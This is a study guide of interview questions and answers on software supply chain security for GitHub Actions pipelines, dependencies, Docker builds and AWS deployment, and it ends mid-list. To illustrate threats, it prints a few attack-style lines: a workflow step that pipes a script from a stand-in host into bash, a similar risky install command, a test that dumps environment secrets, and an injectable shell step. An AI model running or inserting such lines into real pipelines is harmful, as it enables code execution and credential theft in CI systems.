

# 17- Supply Chain Security Questions

## Overview

Software supply chain security protects the path from source code to a deployed production artifact.

For GitHub Actions, the supply chain includes more than application dependencies:

```text
Developer
   ↓
Source Repository
   ↓
Workflow Definition
   ↓
Third-Party Actions
   ↓
Dependencies
   ↓
Build Environment
   ↓
Docker Build
   ↓
Artifact
   ↓
Registry
   ↓
Deployment
   ↓
Production
```

A compromise at any stage can affect the final system.

For a senior backend engineer, supply chain security is therefore a combination of:

- Source integrity
- Workflow integrity
- Dependency security
- Action trust
- Runner security
- Secret protection
- Least-privilege permissions
- Artifact integrity
- SBOM
- Provenance
- Attestations
- Signing
- Immutable artifacts
- Secure deployment
- Monitoring and incident response

The goal is not merely to scan dependencies. The goal is to establish a trustworthy chain from source commit to production artifact.

---

## Core Supply Chain Security Model

A useful mental model is:

```text
Source
  ↓
Workflow
  ↓
Dependencies
  ↓
Actions
  ↓
Runner
  ↓
Build
  ↓
Artifact
  ↓
Registry
  ↓
Deployment
```

Each stage should answer:

```text
Who controls it?
What can be modified?
What identity is used?
What credentials are available?
What evidence proves what happened?
How can the artifact be verified later?
```

---

## Interview Questions: Fundamentals

### What is software supply chain security?

Software supply chain security protects software and its delivery process against compromise of:

- Source code
- Dependencies
- Build tools
- CI/CD workflows
- Third-party actions
- Build environments
- Artifacts
- Registries
- Deployment systems

The important distinction is that application security protects the software itself, while supply chain security also protects how that software is produced and delivered.

---

### Why is CI/CD part of the software supply chain?

CI/CD systems can:

- Read source code
- Download dependencies
- Execute arbitrary scripts
- Access secrets
- Build artifacts
- Publish images
- Assume cloud roles
- Deploy production systems

Therefore, compromising a CI/CD system can be equivalent to compromising the software delivery process.

A vulnerable application may affect one service.

A compromised build pipeline can potentially affect every service produced by that pipeline.

---

### What are the major supply chain attack surfaces?

| Layer | Example Risk |
|---|---|
| Source | Compromised branch or workflow |
| Dependency | Malicious package |
| GitHub Action | Compromised third-party action |
| Runner | Persistent compromised host |
| Build | Tampered build process |
| Artifact | Modified image or package |
| Registry | Unauthorized artifact replacement |
| Credentials | Stolen cloud identity |
| Deployment | Unauthorized production release |

---

### What is the difference between dependency security and supply chain security?

Dependency security focuses primarily on software packages.

Supply chain security is broader:

```text
Dependencies
+
Source
+
CI/CD
+
Actions
+
Build environment
+
Artifacts
+
Identity
+
Deployment
```

A project can have zero known vulnerable Python packages and still have a compromised GitHub Action that steals credentials during the build.

---

## Source Code Security

### Why is source integrity important?

The source repository is the starting point of the build.

If an attacker modifies:

```text
application code
workflow YAML
Dockerfile
dependency files
build scripts
```

the resulting artifact may already be compromised.

Controls include:

- Branch protection
- Required reviews
- CODEOWNERS
- Protected environments
- Restricted workflow modifications
- Audit logs
- Commit verification
- Least-privilege repository permissions

---

### Why are workflow files particularly sensitive?

A workflow file is executable infrastructure.

For example:

```yaml
- name: Deploy
  run: ./deploy.sh
```

An attacker who can modify the workflow may change it to:

```yaml
- name: Deploy
  run: |
    curl https://example.invalid/payload.sh | bash
    ./deploy.sh
```

Therefore workflow files should receive the same level of protection as application deployment code.

---

### What should be protected in a GitHub repository?

At minimum:

```text
.github/workflows/
Dockerfile
dependency files
build scripts
deployment scripts
infrastructure code
release configuration
```

Use appropriate branch protection and code ownership controls.

---

## Dependency Security

### What is dependency confusion?

Dependency confusion occurs when an attacker publishes a malicious package using a name that a build system resolves from an unintended package registry.

For example:

```text
Internal package:
company-utils

Public malicious package:
company-utils
```

If package resolution is not properly controlled, the public package may be downloaded instead.

---

### How do you reduce dependency confusion risk?

Use:

- Explicit package indexes
- Private package repositories
- Dependency pinning
- Lock files
- Trusted package sources
- Dependency review
- Package allowlists
- Registry policies

For Python, dependency declarations should be reproducible and reviewed.

---

### Why are lock files important?

Lock files capture exact dependency versions and often their integrity information.

Instead of:

```text
Django >= 5.0
```

a reproducible build should resolve a controlled version such as:

```text
Django==5.2.3
```

with appropriate dependency locking for the project.

The objective is deterministic dependency resolution.

---

### Does pinning versions completely solve dependency security?

No.

A pinned package can still be malicious or later discovered to contain a vulnerability.

Therefore:

```text
Pinning
+
Vulnerability scanning
+
Dependency review
+
Update process
+
Runtime monitoring
```

should be combined.

---

## GitHub Actions as Dependencies

### Why should GitHub Actions be treated as dependencies?

A workflow may contain:

```yaml
uses: some-org/some-action@v4
```

That action executes code inside the CI environment.

Therefore an action can potentially access:

- Source code
- Environment variables
- GITHUB_TOKEN
- Secrets available to the job
- Filesystem contents
- Network resources
- Cloud credentials

An action is therefore a code dependency with potentially high privilege.

---

### What is the risk of using arbitrary Marketplace actions?

The action may be:

- Malicious
- Compromised
- Abandoned
- Vulnerable
- Dependent on another compromised package
- Overprivileged

The number of actions in a workflow should be minimized where practical.

---

## Action Version Pinning

### Why is version pinning important?

Consider:

```yaml
uses: vendor/action@main
```

The referenced code can change without your workflow file changing.

A mutable tag has weaker reproducibility.

A version tag is better:

```yaml
uses: vendor/action@v4
```

An immutable commit SHA provides stronger integrity:

```yaml
uses: vendor/action@<commit-sha>
```

The exact SHA should be reviewed and updated deliberately.

---

### What is SHA pinning?

SHA pinning binds an action reference to a specific Git commit.

Conceptually:

```text
Mutable branch
    ↓
Could change unexpectedly

Version tag
    ↓
Can potentially be moved

Commit SHA
    ↓
Specific commit
```

SHA pinning improves:

- Reproducibility
- Change control
- Auditability
- Supply chain integrity

It does not prove that the pinned commit is trustworthy.

---

### What is the limitation of SHA pinning?

A malicious or vulnerable commit can still be pinned.

Therefore:

```text
SHA pinning
+
Trusted source
+
Review
+
Dependency scanning
+
Controlled update process
```

is stronger than SHA pinning alone.

---

## Action Dependency Chains

An action may depend on other actions or packages.

Example:

```text
Workflow
   ↓
Action A
   ↓
Node dependency
   ↓
Third-party package
```

Therefore reviewing only the top-level action is insufficient.

A compromised dependency can affect the entire chain.

---

## Trusted Action Sources

Organizations should establish policies for:

- Approved actions
- Internal actions
- GitHub-maintained actions
- Vendor actions
- Marketplace actions
- SHA requirements
- Version update procedures

An enterprise may maintain an approved action registry.

Example:

```text
Approved:
actions/checkout
actions/setup-python
docker/build-push-action
aws-actions/configure-aws-credentials
```

with controlled versions or SHAs.

---

## Dependency Review

Dependency review can detect changes introduced by pull requests.

A useful CI pipeline is:

```text
Pull Request
    ↓
Dependency Review
    ↓
Tests
    ↓
Security Scan
    ↓
Build
```

The goal is to prevent introducing known-risk dependencies before merge.

---

## Dependabot

Dependabot can help automate dependency updates.

A mature process should distinguish:

```text
Update detected
    ↓
Assess risk
    ↓
Run tests
    ↓
Security checks
    ↓
Review
    ↓
Merge
```

Do not blindly merge every automated dependency update into production.

---

## Python Dependency Security

For Django/FastAPI services, inspect:

```text
requirements.txt
pyproject.toml
uv.lock
poetry.lock
pip constraints
```

depending on the package-management strategy.

A production pipeline should make dependency resolution reproducible.

Example:

```bash
python -m pip install --upgrade pip
pip install -r requirements.txt
pytest
```

The exact installation strategy should match the project's lock and packaging model.

---

## Dependency Installation Security

Avoid downloading arbitrary code during CI without understanding its origin.

Risky patterns include:

```bash
curl https://unknown.example/install.sh | bash
```

or:

```bash
pip install package-from-unknown-source
```

Prefer trusted repositories, pinned dependencies, checksums where appropriate, and reviewed installation mechanisms.

---

## Build Script Security

Build scripts are executable code.

Examples include:

```text
Makefile
pyproject build hooks
package scripts
Dockerfile RUN commands
shell scripts
Terraform modules
deployment scripts
```

A malicious modification to any of these can compromise the resulting artifact.

---

## Build Environment Security

The build environment should be treated as a security boundary.

A build runner may have access to:

```text
Source code
Dependencies
Secrets
Cloud credentials
Registry credentials
Artifacts
```

Therefore build runners should have:

- Minimal permissions
- Controlled network access
- Trusted software
- Regular patching
- Ephemeral execution where appropriate
- Strong monitoring

---

## GitHub-Hosted vs Self-Hosted Runner Security

| Area | GitHub-Hosted | Self-Hosted |
|---|---|---|
| Host management | GitHub | Organization |
| Isolation | Managed | Organization responsibility |
| Private network | Limited/architecture dependent | Strong |
| Persistent state risk | Lower | Potentially higher |
| Hardening | Mostly managed | Organization responsibility |
| Customization | Limited | High |
| Security blast radius | Generally easier to constrain | Must be explicitly designed |

Self-hosted runners are particularly sensitive when workflows execute untrusted code.

---

## Why Are Persistent Runners Risky?

Suppose:

```text
Job A
  ↓
Malicious code
  ↓
Leaves payload on filesystem
  ↓
Job B
```

If Job B executes on the same runner, it may inherit the compromised state.

Potentially affected resources include:

- Workspace
- Temporary files
- Docker cache
- Credentials
- SSH configuration
- Build tools
- Local package caches

Ephemeral runners reduce this risk.

---

## Ephemeral Runners

An ephemeral runner follows:

```text
Provision
   ↓
Register
   ↓
Execute one workload
   ↓
Destroy
```

Advantages:

- Reduced state leakage
- Less configuration drift
- Easier cleanup
- Better isolation
- Easier incident recovery

Trade-offs include:

- Startup latency
- Infrastructure complexity
- Autoscaling requirements
- Additional cloud cost

---

## Untrusted Pull Requests

Pull requests can contain attacker-controlled code.

For example:

```python
# malicious test
import os
print(os.environ)
```

If a workflow executes this test on a privileged runner with secrets, the attacker may attempt to expose sensitive information.

Therefore:

```text
Untrusted PR
    ↓
Restricted execution environment
```

should be separated from:

```text
Trusted branch
    ↓
Privileged build/deployment environment
```

---

## `pull_request` vs `pull_request_target`

This is a common senior interview topic.

`pull_request` is designed for pull request workflows and should generally be treated as an untrusted execution context.

`pull_request_target` runs using the base repository context and therefore requires particular care.

The dangerous pattern is:

```text
pull_request_target
+
checkout attacker-controlled PR
+
execute attacker-controlled code
+
secrets
```

This can expose the base repository's privileges to untrusted code.

---

## Shell Injection

GitHub metadata can contain attacker-controlled content.

Examples:

```text
PR title
Branch name
Commit message
Issue title
Workflow input
Repository dispatch payload
```

Unsafe:

```yaml
- name: Process PR title
  run: echo "${{ github.event.pull_request.title }}"
```

The expression is inserted into the shell script before execution.

A safer pattern is to pass the value as an environment variable:

```yaml
- name: Process PR title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    printf '%s\n' "$PR_TITLE"
```

The shell still needs appropriate handling for the specific operation.

---

## Python Subprocess Injection

Avoid:

```python
import os
import subprocess

subprocess.run(
    f"deploy {os.environ['INPUT_VALUE']}",
    shell=True,
    check=True,
)
```

Prefer argument arrays:

```python
import os
import subprocess

subprocess.run(
    ["deploy", os.environ["INPUT_VALUE"]],
    check=True,
)
```

Validate inputs according to the allowed format before passing them to subprocesses.

---

## Docker Build Security

Docker builds are also part of the supply chain.

Potential risks include:

- Malicious base image
- Untrusted build context
- Dependency compromise
- Secret leakage
- Malicious `RUN` commands
- Docker socket exposure
- Unverified external downloads

Use:

- Trusted base images
- Pinned dependencies
- Multi-stage builds
- Minimal runtime images
- `.dockerignore`
- BuildKit secret mechanisms
- Image scanning
- SBOM generation
- Provenance

---

## Docker Build Context

A large or poorly controlled build context can accidentally include:

```text
.env
.git
SSH keys
credentials
local artifacts
database files
```

Use `.dockerignore`.

Example:

```dockerignore
.git
.env
.venv
__pycache__
*.pyc
coverage
dist
```

The build context should contain only what the Docker build requires.

---

## Docker Build Secrets

Do not use:

```dockerfile
ARG AWS_ACCESS_KEY_ID
ARG AWS_SECRET_ACCESS_KEY
```

for sensitive credentials.

Build arguments can become visible through build metadata or image history depending on how they are used.

Use appropriate BuildKit secret mechanisms instead.

---

## Base Image Security

A Docker image inherits the security characteristics of its base image.

Example:

```dockerfile
FROM python:3.12-slim
```

Questions to ask:

- Is the image trusted?
- Is it maintained?
- Is it scanned?
- Is the version controlled?
- How frequently is it updated?

Base image updates should be tested rather than blindly adopted.

---

## Multi-Stage Builds

Multi-stage builds reduce the runtime image surface.

Example:

```dockerfile
FROM python:3.12-slim AS builder

WORKDIR /app
COPY pyproject.toml .
RUN pip install --target=/install .

FROM python:3.12-slim

COPY --from=builder /install /usr/local/lib/python3.12/site-packages
COPY . /app
WORKDIR /app

CMD ["python", "-m", "app"]
```

The exact dependency installation approach should match the application's packaging configuration.

The key supply chain principle is:

```text
Build dependencies
≠
Runtime dependencies
```

---

## Image Tagging Security

Avoid treating:

```text
latest
```

as a sufficient production artifact identity.

Prefer immutable identifiers such as:

```text
my-service:git-8f31a21
```

and retain the image digest:

```text
sha256:...
```

The digest identifies the exact image content.

---

## Build Once, Promote Many

A secure production pipeline should preferably use:

```text
Source
  ↓
Build
  ↓
Scan
  ↓
Sign / Attest
  ↓
Publish
  ↓
Staging
  ↓
Approval
  ↓
Production
```

rather than:

```text
Source
  ↓
Build Staging
  ↓
Build Production
```

Rebuilding can produce a different artifact.

---

## Artifact Integrity

An artifact should have a stable identity.

For container images:

```text
Repository
+
Tag
+
Digest
```

For packages:

```text
Package
+
Version
+
Checksum
```

For releases:

```text
Release
+
Commit
+
Artifact
+
Provenance
```

---

## Hashing vs Signing

Hashing provides integrity evidence:

```text
SHA-256(content)
```

If content changes, the hash changes.

Signing adds identity:

```text
Private Key
    ↓
Signature
    ↓
Artifact
```

A verifier can use the corresponding public key to establish that the signature was produced by the expected signing identity.

---

## What is an SBOM?

A Software Bill of Materials describes the components contained in a software artifact.

Conceptually:

```text
Application
 ├── Python
 ├── Django
 ├── Requests
 ├── PostgreSQL client
 └── Other dependencies
```

Common SBOM formats include:

- SPDX
- CycloneDX

An SBOM helps answer:

> What is inside this artifact?

---

## What is Artifact Provenance?

Provenance describes how an artifact was produced.

For example:

```text
Repository:
backend-api

Commit:
8f31a21

Workflow:
build.yml

Builder:
GitHub Actions

Runner:
Trusted build environment

Timestamp:
Build time

Artifact:
image digest
```

The key question becomes:

> Where did this artifact come from, and how was it built?

---

## SBOM vs Provenance

| Concept | Answers |
|---|---|
| SBOM | What components are inside? |
| Provenance | How and where was it built? |
| Signature | Who signed it? |
| Attestation | What verifiable claim is associated with it? |
| Digest | What exact content is this? |

These controls complement each other.

---

## Artifact Attestations

An attestation attaches verifiable metadata to an artifact.

Examples include:

```text
Artifact was built from commit X
Artifact was produced by workflow Y
Artifact contains SBOM Z
```

This allows downstream systems to establish policy based on build evidence.

---

## Artifact Signing

Signing provides an integrity and identity mechanism.

A production deployment process can require:

```text
Artifact
  ↓
Signature Verification
  ↓
Provenance Verification
  ↓
Deployment
```

This helps prevent unauthorized artifacts from reaching production.

---

## Trusted Build Pipeline

A stronger architecture is:

```mermaid
flowchart LR
    SRC[Trusted Source] --> WF[Protected Workflow]
    WF --> RUN[Trusted Build Runner]
    RUN --> BUILD[Build]
    BUILD --> SCAN[Security Scan]
    SCAN --> SBOM[SBOM]
    SBOM --> PROV[Provenance / Attestation]
    PROV --> SIGN[Signing]
    SIGN --> REG[Immutable Registry]
    REG --> DEPLOY[Controlled Deployment]
```



The artifact is accepted only after the required security evidence is produced.

---

## Artifact Poisoning

Artifact poisoning occurs when an attacker replaces or injects a malicious artifact into the delivery process.

Example:

```text
Expected:
image@sha256:AAA

Received:
image@sha256:BBB
```

Prevent this through:

- Immutable artifact identity
- Registry permissions
- Digest verification
- Provenance
- Signing
- Deployment controls

---

## Registry Security

Container registries such as Amazon ECR should have:

- Restricted push permissions
- Restricted delete permissions
- Repository policies
- Image scanning
- Lifecycle policies
- Encryption
- Audit logging
- Cross-account controls where applicable

Build runners should generally have only the registry permissions they require.

---

## ECR Authentication

A common AWS flow is:

```text
GitHub Actions
    ↓
OIDC
    ↓
AWS STS
    ↓
IAM Role
    ↓
ECR
```

The workflow can authenticate without storing long-lived AWS credentials.

Example:

```yaml
permissions:
  id-token: write
  contents: read
```

The IAM trust policy should restrict which GitHub identities can assume the role.

---

## IAM Least Privilege

Do not give a build job:

```text
AdministratorAccess
```

if it only needs to:

```text
Authenticate
+
Push one ECR repository
```

Similarly, a deployment job should receive only the permissions required for its target resources.

---

## OIDC Trust Boundaries

The trust relationship should consider:

```text
Repository
+
Organization
+
Branch
+
Environment
+
Workflow identity
```

A broad trust policy can allow unintended workflows to obtain cloud credentials.

---

## AWS STS

STS provides temporary AWS credentials.

A simplified flow:

```text
GitHub OIDC Token
       ↓
AWS STS
       ↓
Temporary Credentials
       ↓
AWS API
```

Temporary credentials reduce the risk associated with long-lived access keys.

---

## Secrets and Supply Chain Security

Secrets should be available only to jobs that require them.

For example:

```yaml
jobs:
  test:
    permissions:
      contents: read

  deploy:
    permissions:
      contents: read
      id-token: write
```

The test job does not need AWS deployment identity.

This is privilege isolation.

---

## Secret Exposure Through Logs

Avoid:

```bash
echo "$AWS_SECRET_ACCESS_KEY"
```

or:

```bash
curl -H "Authorization: Bearer $SECRET" ...
```

where the command or error output may expose sensitive data.

Even masked secrets should not be treated as safe to print.

---

## Secrets in Artifacts

Do not upload:

```text
.env
config files
credential files
SSH keys
cloud credentials
```

as debugging artifacts.

Artifact retention extends the lifetime of sensitive information.

---

## Cache Poisoning

Caches are not trusted artifacts.

A cache may contain:

```text
Dependencies
Build outputs
Downloaded packages
Compiled objects
```

If cache boundaries are poorly designed, untrusted workflows may influence cached content later consumed by trusted workflows.

Avoid allowing untrusted execution contexts to poison privileged caches.

---

## Cache vs Artifact

| Property | Cache | Artifact |
|---|---|---|
| Primary purpose | Speed | Preserve/transfer output |
| Trust model | Optimization | Delivery/evidence |
| Reproducibility | Not guaranteed | Should be controlled |
| Production promotion | Usually no | Yes |
| Security identity | Weak | Should be explicit |
| Example | pip cache | Docker image |

Never treat a cache as the authoritative production artifact.

---

## Dynamic Matrices and Supply Chain Security

Dynamic matrices often use:

```yaml
matrix: ${{ fromJSON(needs.plan.outputs.matrix) }}
```

If the matrix originates from untrusted input, an attacker may influence:

```text
Runner selection
Commands
Versions
Paths
Images
Deployment targets
```

Validate generated matrix data.

Do not allow untrusted input to arbitrarily define privileged workflow behavior.

---

## Workflow Outputs

Outputs can transfer data between jobs.

Example:

```yaml
- id: build
  run: echo "image_digest=sha256:..." >> "$GITHUB_OUTPUT"
```

Then:

```yaml
outputs:
  image_digest: ${{ steps.build.outputs.image_digest }}
```

Treat outputs as data, not trusted executable instructions.

Validate any value that later becomes:

```text
Shell argument
Docker image
AWS resource
Kubernetes object
File path
```

---

## Reusable Workflows and Supply Chain Security

Reusable workflows centralize security controls.

Example:

```text
Repository A
      ↓
Reusable Build Workflow
      ↓
Trusted Build Process
```

Advantages:

- Centralized security policy
- Consistent permissions
- Standardized scanning
- Controlled deployment behavior

Risks include:

- Breaking consumers
- Version drift
- Excessive privileges
- Compromised shared workflow

Version reusable workflows deliberately.

---

## Internal Actions

Internal actions reduce dependency on arbitrary Marketplace code.

For example:

```text
Organization
 ├── secure-python-setup
 ├── secure-docker-build
 ├── aws-oidc-login
 └── deploy-service
```

Central ownership allows:

- Security review
- Version management
- Standardization
- Monitoring
- Faster remediation

Internal actions still require supply chain controls.

---

## Third-Party Action Incident

Suppose a trusted action is compromised.

Potential impact:

```text
Workflow executes malicious code
    ↓
Reads job environment
    ↓
Accesses available secrets
    ↓
Uses GITHUB_TOKEN
    ↓
Attempts cloud access
```

The impact depends heavily on:

```text
Job permissions
+
Secrets
+
Runner access
+
Network access
+
OIDC permissions
```

Least privilege is therefore a supply chain defense.

---

## What Should You Do After an Action Is Compromised?

A response process should include:

```text
Identify affected action/version
        ↓
Stop affected workflows
        ↓
Determine exposure window
        ↓
Rotate credentials
        ↓
Review workflow runs
        ↓
Inspect artifacts
        ↓
Inspect AWS audit logs
        ↓
Pin trusted replacement
        ↓
Rebuild affected artifacts
        ↓
Redeploy known-good artifacts
        ↓
Document root cause
```

Do not assume changing the action reference is sufficient if credentials may have been exposed.

---

## Credential Rotation After Compromise

Potentially affected credentials include:

```text
GitHub secrets
AWS credentials
OIDC-derived permissions
Registry credentials
SSH keys
Package registry credentials
Application deployment credentials
```

Rotate according to the actual exposure path.

---

## Incident Investigation

Useful evidence includes:

```text
GitHub workflow logs
GitHub audit logs
Commit history
Pull requests
Action versions
Runner logs
Artifact metadata
Registry logs
AWS CloudTrail
ECR events
Deployment history
```

Correlate:

```text
Timestamp
+
Workflow run
+
Commit
+
Runner
+
Artifact digest
+
Deployment
```

---

## AWS CloudTrail Investigation

For AWS compromise investigations, inspect:

```text
AssumeRoleWithWebIdentity
ECR API calls
S3 API calls
ECS API calls
IAM API calls
Secrets Manager access
STS activity
```

The goal is to determine:

```text
Who
+
What
+
When
+
From which identity
+
Against which resource
```

---

## Artifact Rollback

If an artifact may be compromised:

```text
Stop deployment
    ↓
Identify known-good artifact
    ↓
Verify digest
    ↓
Verify provenance/signature
    ↓
Deploy known-good artifact
```

Do not simply rebuild from the current source if the source or build pipeline itself may have been compromised.

---

## Reproducible Builds

A reproducible build should produce equivalent artifacts from the same controlled inputs.

Important inputs include:

```text
Source commit
Dependency versions
Base image
Build tools
Build configuration
Workflow
```

Reducing uncontrolled variation makes compromise detection easier.

---

## Build Reproducibility Challenges

Perfect reproducibility can be difficult because builds may depend on:

- Current timestamps
- Network downloads
- Mutable package tags
- Base image tags
- Non-deterministic tools
- Generated metadata

Use controlled versions and deterministic build practices where practical.

---

## Network Isolation for Builds

A build runner does not necessarily need unrestricted internet access.

Consider:

```text
Private package mirror
+
Approved registries
+
AWS VPC endpoints
+
Restricted egress
```

This can reduce opportunities for malicious code to exfiltrate data.

---

## Dependency Proxy

An organization can use an internal dependency or registry proxy.

Benefits include:

- Controlled sources
- Caching
- Availability
- Auditing
- Central policy
- Reduced external dependency

This is particularly useful for enterprise CI/CD.

---

## Kubernetes Supply Chain Security

For Kubernetes deployments:

```text
Build
 ↓
Scan
 ↓
SBOM
 ↓
Sign
 ↓
Registry
 ↓
Admission Verification
 ↓
Deployment
```

The cluster can enforce policies such as:

```text
Only signed images
Only approved registries
Only approved identities
```

This moves supply chain verification closer to runtime.

---

## Lambda Supply Chain Security

Lambda deployments may use:

```text
ZIP artifact
```

or:

```text
Container image
```

The pipeline should maintain:

```text
Source
+
Build identity
+
Artifact checksum/digest
+
Provenance
+
Deployment history
```

For container-based Lambda, image integrity controls apply directly.

---

## Infrastructure-as-Code Supply Chain

Terraform and CloudFormation are also supply chain components.

An attacker modifying:

```text
Terraform module
```

could change:

```text
IAM
VPC
Security Groups
ECS
EC2
S3
```

Therefore infrastructure code should receive:

- Code review
- Version control
- Dependency/module controls
- Security scanning
- Least-privilege deployment roles
- Protected production environments

---

## Terraform Module Security

Avoid blindly consuming arbitrary modules.

Review:

```text
Source
Version
Provider
Dependencies
Permissions
Resources
```

Pin module/provider versions where appropriate.

---

## Container Registry Promotion

A secure promotion process can use:

```text
ECR
 ├── Image Digest
 ├── SBOM
 ├── Provenance
 └── Signature
```

Then:

```text
Staging
   ↓
Verification
   ↓
Production
```

The production environment should deploy the same immutable digest.

---

## Supply Chain Reference Architecture



---

## Senior Interview Questions: Architecture

### How would you secure a GitHub Actions pipeline for a Python microservice?

A strong answer should discuss:

```text
Protected source
+
Least-privilege GITHUB_TOKEN
+
Pinned actions
+
Dependency scanning
+
Secure build runner
+
Docker image scanning
+
SBOM
+
Provenance
+
Artifact signing
+
ECR
+
OIDC
+
Environment protection
+
Immutable deployment
+
Rollback
```

The important point is that supply chain security is layered.

---

### How would you prevent a compromised action from accessing AWS?

Use multiple controls:

1. Minimize job permissions.
2. Separate build and deployment jobs.
3. Grant `id-token: write` only where required.
4. Restrict the IAM trust policy.
5. Use environment protection.
6. Restrict AWS resource permissions.
7. Avoid exposing production credentials to build jobs.
8. Use dedicated deployment workflows.

Even if an action is compromised, its blast radius should be limited.

---

### How would you secure a Docker build?

Consider:

```text
Trusted base image
+
Pinned dependencies
+
Small build context
+
.dockerignore
+
BuildKit secrets
+
Multi-stage build
+
Image scan
+
SBOM
+
Provenance
+
Signing
+
Immutable registry identity
```

---

### How would you guarantee production uses the same artifact tested in staging?

Use:

```text
Build once
    ↓
Immutable artifact
    ↓
Digest
    ↓
Staging
    ↓
Approval
    ↓
Same digest
    ↓
Production
```

Do not rebuild for production.

---

## Senior Interview Scenario: Compromised Dependency

### Scenario

A production Django service uses a dependency that has just been reported as compromised.

### Reasoning

First determine:

```text
Which versions are affected?
Which artifacts contain them?
Which production services use those artifacts?
When were they built?
Which workflows produced them?
```

Then:

```text
Stop affected promotion
    ↓
Identify clean dependency version
    ↓
Update lock file
    ↓
Run tests
    ↓
Rebuild
    ↓
Rescan
    ↓
Generate SBOM
    ↓
Produce provenance
    ↓
Sign artifact
    ↓
Deploy
```

Also review whether the compromised dependency could have accessed secrets during CI.

---

## Senior Interview Scenario: Malicious GitHub Action

### Scenario

A widely used Marketplace action is discovered to be compromised.

### Questions to answer

- Which repositories use it?
- Which versions are affected?
- Are references mutable?
- Which workflows execute it?
- Which secrets were available?
- What permissions did the job have?
- Which runners executed it?
- Could it access AWS?
- Which artifacts were produced?
- Were production deployments performed?

This demonstrates incident reasoning rather than merely knowing SHA pinning.

---

## Senior Interview Scenario: Build Runner Compromise

### Scenario

A self-hosted build runner may have been compromised.

### Correct reasoning

Do not immediately reuse it.

```text
Isolate runner
    ↓
Stop new jobs
    ↓
Preserve relevant evidence
    ↓
Rotate potentially exposed credentials
    ↓
Inspect workflow activity
    ↓
Inspect artifact history
    ↓
Destroy runner
    ↓
Provision clean runner
    ↓
Rebuild affected artifacts
    ↓
Verify integrity
```

The key principle is:

> Treat a compromised build environment as untrusted.

---

## Senior Interview Scenario: Production Image Cannot Be Trusted

If the registry contains an image whose provenance is uncertain:

```text
Do not deploy it merely because the tag looks correct.
```

Verify:

```text
Digest
+
Build source
+
Workflow
+
Provenance
+
Signature
+
SBOM
```

If evidence is insufficient, produce a new trusted artifact.

---

## Senior Interview Scenario: Supply Chain vs Runtime Security

### Question

Is supply chain security enough to secure production?

No.

Supply chain controls protect how software is produced and delivered.

Runtime security still requires:

```text
Network controls
+
IAM
+
Application security
+
Secrets management
+
Monitoring
+
Vulnerability management
+
Incident response
```

Supply chain security is one layer of the overall security architecture.

---

## Governance Questions

### How would you govern third-party actions across an enterprise?

Define:

```text
Approved action sources
+
Action allowlist
+
SHA pinning
+
Version update process
+
Security review
+
Ownership
+
Deprecation policy
+
Audit
```

Central reusable workflows can enforce common controls.

---

### How would you prevent every team from creating arbitrary privileged workflows?

Use:

- Organization policies
- Repository rules
- Required workflows
- Environment protection
- Runner groups
- IAM controls
- Action allowlists
- Reusable workflows
- Least-privilege defaults

Governance should reduce accidental privilege without blocking legitimate development unnecessarily.

---

## Supply Chain Security Failure Domains

| Failure Domain | Typical Symptoms | Primary Investigation |
|---|---|---|
| Source | Unexpected code | Git history/reviews |
| Dependency | New package/version | Lock files/scanners |
| Action | Unexpected behavior | Action version/SHA |
| Workflow | Modified execution | Workflow diff |
| Runner | Unexpected process | Host logs |
| Credential | Unauthorized access | GitHub/AWS audit logs |
| Build | Unexpected artifact | Build logs/provenance |
| Registry | Wrong image | Digest/history |
| Deployment | Unauthorized release | Environment/deployment logs |

---

## Troubleshooting Model

For every supply chain incident:

```text
Symptom
   ↓
Possible Causes
   ↓
Isolation Strategy
   ↓
Commands / Checks
   ↓
Root Cause
   ↓
Corrective Action
   ↓
Prevention
```

Avoid jumping directly to remediation before establishing the failure domain.

---

## Practical Diagnostic Commands

GitHub workflow:

```bash
gh run list
gh run view <run-id>
gh run view <run-id> --log
```

Repository state:

```bash
git log --oneline -- .github/workflows/
git diff HEAD~1 -- .github/workflows/
```

Python dependency inspection:

```bash
python -m pip list
python -m pip freeze
```

Docker:

```bash
docker image inspect <image>
docker history <image>
```

AWS identity:

```bash
aws sts get-caller-identity
```

ECR:

```bash
aws ecr describe-images \
  --repository-name backend-api
```

These commands should be used together with the relevant logs and artifact metadata.

---

## Production Security Checklist

### Source

- [ ] Protected branches are configured.
- [ ] Workflow files are reviewed.
- [ ] CODEOWNERS protects security-sensitive files.
- [ ] Production changes require appropriate review.

### Dependencies

- [ ] Dependencies are controlled.
- [ ] Lock files are maintained.
- [ ] Dependency scanning is enabled.
- [ ] Dependency updates are reviewed.
- [ ] Package sources are trusted.

### GitHub Actions

- [ ] Third-party actions are reviewed.
- [ ] Actions are pinned appropriately.
- [ ] SHA pinning is used where required.
- [ ] Action dependencies are understood.
- [ ] GITHUB_TOKEN permissions are minimized.

### Secrets

- [ ] Secrets are scoped.
- [ ] Secrets are not printed.
- [ ] Secrets are not included in artifacts.
- [ ] Production secrets are isolated.
- [ ] Long-lived cloud credentials are avoided where OIDC is appropriate.

### Runners

- [ ] Untrusted PRs are isolated.
- [ ] Production runners are separated.
- [ ] Persistent runners are hardened.
- [ ] Ephemeral runners are used where appropriate.
- [ ] Runner images are reproducible.
- [ ] Runner access is monitored.

### Docker

- [ ] Base images are trusted.
- [ ] Docker context is minimized.
- [ ] `.dockerignore` is configured.
- [ ] Build secrets are handled securely.
- [ ] Images are scanned.
- [ ] Images have immutable identity.

### Artifacts

- [ ] Artifacts have known provenance.
- [ ] SBOMs are generated where appropriate.
- [ ] Provenance is recorded.
- [ ] Artifacts can be verified.
- [ ] Production uses immutable artifact identity.

### AWS

- [ ] OIDC is used where appropriate.
- [ ] IAM trust policies are restrictive.
- [ ] Deployment roles are least privilege.
- [ ] ECR access is restricted.
- [ ] CloudTrail is available for investigation.

### Deployment

- [ ] Build once, promote many is used.
- [ ] Production deployments are protected.
- [ ] Deployment concurrency is controlled.
- [ ] Rollback artifacts are retained.
- [ ] Deployment verification is implemented.

---

## Senior Design Principles

A mature supply chain security architecture follows these principles:

### Minimize Trust

Every dependency, action, runner, credential, and artifact should have an explicit trust decision.

### Minimize Privilege

A compromised component should have the smallest possible blast radius.

### Make Artifacts Immutable

Production should deploy known artifact identities rather than mutable references.

### Separate Build and Deployment

The ability to build software does not automatically require the ability to deploy production.

### Prefer Short-Lived Identity

